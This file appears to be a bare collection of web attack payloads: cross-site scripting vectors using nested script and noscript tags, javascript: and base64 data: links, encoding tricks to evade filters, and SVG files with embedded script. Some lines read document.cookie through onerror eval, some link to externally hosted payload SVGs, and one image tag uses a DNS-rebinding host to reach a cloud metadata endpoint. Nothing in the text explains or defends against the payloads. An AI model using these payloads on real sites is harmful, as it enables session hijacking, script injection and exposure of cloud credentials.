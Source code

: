 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>
<a href="data:text/plain;base64,amF2YXNjcmlwdDphbGVydCgneHNzJyk=">Click data</a>
data:text/plain;base64,amF2YXNjcmlwdDphbGVydCgneHNzJyk=
https://special-garbanzo-7v7r6x5g5v4hpgpq-8080.app.github.dev/super.svg
<img src="https://gistpreview.github.io/?029781441a2d3737294741f2d6a4c821/image8.svg" onerror="eval('alert(document.cookie)')"/>
<IMG SRC="https://special-garbanzo-7v7r6x5g5v4hpgpq-8080.app.github.dev/super.svg">

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>
<select><noembed></select><script x='a@b'a>
y='a@b'//a@b%0a\u0061lert(1)</script x>

xss'''><iframe srcdoc='%26it;script>;prompt`
${document.domain}`%26it;/script>'>
<iframe src=data:text/html,%3Cscript%3Ealert%28%27hi%27%29%3B%3C%2Fscript%3E></iframe>
data:text/html,%3Cscript%3Ealert%28%27hi%27%29%3B%3C%2Fscript%3E


<sVg/onLy=1 onLoaD=confirm(1)//

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>

<svg><animate onbegin=evt.path.pop().alert(1) attributeName=x dur=1s>

<img/src=x onError="`${x}`;alert(`Ex.Mi`);">
<img src="http://7f000001.a9fea9fe.rbndr.us//latest/meta-data/" >



https://shell.cloud.google.com/?walkthrough_tutorial_url=https%3A%2F%2Fraw.githubusercontent.com%2Fgolang%2Ftour%2Fmaster%2Ftutorial%2Fweb-service-gin.md&pli=1&show=ide&environment_deployment=ide
